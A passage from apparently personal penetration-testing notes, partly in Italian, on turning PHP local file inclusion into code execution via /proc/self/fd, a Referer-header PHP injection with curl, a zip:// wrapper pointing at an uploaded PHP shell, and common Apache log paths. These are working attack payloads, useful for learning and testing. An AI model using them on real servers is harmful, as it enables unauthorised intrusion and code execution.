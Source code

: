 
## 8) Using /proc/self/fd
brute force the fd (File Descriptor) until you see "referer"
*/proc/self/fd/{number}*

```
curl -H "Referer: <?php phpinfo(); ?>" http://target.com
```

*(Da Stackoverflow):*
`/proc/self/fd` reports the files opened by a process. Each entry is a “magic” symbolic link whose name is the [file descriptor](https://en.wikipedia.org/wiki/File_descriptor) and whose target is the open file. It's magic in the sense that the link actually points to the file itself, even if the file name obtained by calling `readlink` is not a valid file name, which happens, for example, with files that don't have a name (such as anonymous pipes and sockets), and with deleted files.

Altre tecniche con /proc [[LFI w/ proc]]
<br>


## 9) Using zip
Upload a ZIP file containing a PHP shell compressed and access:
```http
example.com/page.php?file=zip://path/to/zip/hello.zip%23rce.php
```
<br>



# 5 Common files location
## Common FIle Location


https://wiki.apache.org/httpd/DistrosDefaultLayout  
**Common log file location**  
**Ubuntu, Debian**  
```
/var/log/apache2/error.log  
/var/log/apache2/access.log  
```
**Red Hat, CentOS, Fedora, OEL, RHEL**  
```
/var/log/httpd/error_log  
/var/log/httpd/access_log  
```
**FreeBSD**  
```
/var/log/httpd-error.log  
/var/log/httpd-access.log  
```
**Common Config file location**  

check any restriction or hidden path on accessing the server  

